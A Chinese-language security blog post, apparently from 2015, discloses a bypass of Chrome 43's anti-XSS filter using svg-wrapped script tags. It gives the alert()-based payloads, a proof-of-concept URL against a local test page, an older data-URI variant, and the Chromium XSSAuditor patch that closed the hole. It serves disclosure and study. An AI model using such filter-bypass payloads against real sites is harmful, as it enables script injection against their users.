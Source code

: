 ```yaml
---
layout: post
title: Google Chrome Anti-XSS Filter Bypass
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### First

众所周知Chrome浏览器的Xss Filter是基于模糊匹配敏感关键字的方式进行拦截外部JavaScript脚本注入的，然而可以通过svg标签绕过Xss Filter.

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/ysao8.png">

#### Details

	Affected Products:
	Google Chrome 43.0.2357.124 m (letest stable version)
	
	Discovery Date:
	16-06-15
	
	Payload:
	<svg><script>/<1/>alert()</script></svg>
	<svg><script>0<1>alert(document.domain)</script></svg>

#### POC

`OSX & Chrome 43.0.2357.65`

	http://127.0.0.1/demo.php?xss=<svg><script>/<1/>alert(document.domain)</script></svg>

<img src="http://tr3jer-1252048719.cos.ap-hongkong.myqcloud.com/4rywe7.png">

> 13年Gainover也分享过一个svg标签Bypass Chrome Xss Filter的Payload:`<svg><script xlink:href=data:,alert(1)></script></svg>`现已失效.

#### Patch

	Index: Source/core/html/parser/XSSAuditor.cppt a/Source/core/html/parser/XSSAuditor.cpp b/Source/core/html/parser/XSSAuditor.cpp
	index a1e1852201d23ac858c3b5065a2e26f52d128f4d..e73259145366c12c821a710fe83d3637529478ee 100644
	--- a/Source/core/html/parser/XSSAuditor.cpp
	+++ b/Source/core/html/parser/XSSAuditor.cpp
	@@ -471,15 +471,18 @@ bool XSSAuditor::filterCharacterToken(const FilterTokenRequest& request)
	if (m_state == PermittingAdjacentCharacterTokens)
	     return false;
 
	-    if ((m_state == SuppressingAdjacentCharacterTokens)
	-        || (m_scriptTagFoundInRequest && isContainedInRequest(canonicalizedSnippetForJavaScript(request)))) {
	+    if (m_state == FilteringTokens && m_scriptTagFoundInRequest) {
	+        String snippet = canonicalizedSnippetForJavaScript(request);
	+        if (isContainedInRequest(snippet))
	+            m_state = SuppressingAdjacentCharacterTokens;
	+        else if (!snippet.isEmpty())
	+            m_state = PermittingAdjacentCharacterTokens;
	+    }
	+    if (m_state == SuppressingAdjacentCharacterTokens) {
         request.token.eraseCharacters();
         request.token.appendToCharacter(' '); // Technically, character tokens can't be empty.
	-        m_state = SuppressingAdjacentCharacterTokens;
         return true;
     }
	-
	-    m_state = PermittingAdjacentCharacterTokens;
     return false;
	 }

#### Other

* <a target="_blank" href="http://vulnerable.info/browsers/bypassing-chromes-anti-xss-filter/">Bypassing Chrome’s Anti-XSS Filter</a>

* <a target="_blank" href="https://codereview.chromium.org/1187843005/">Issue 1187843005: XSSAuditor: Dont give a pass to subsequent script blocks if first one is empty. (Closed)</a>
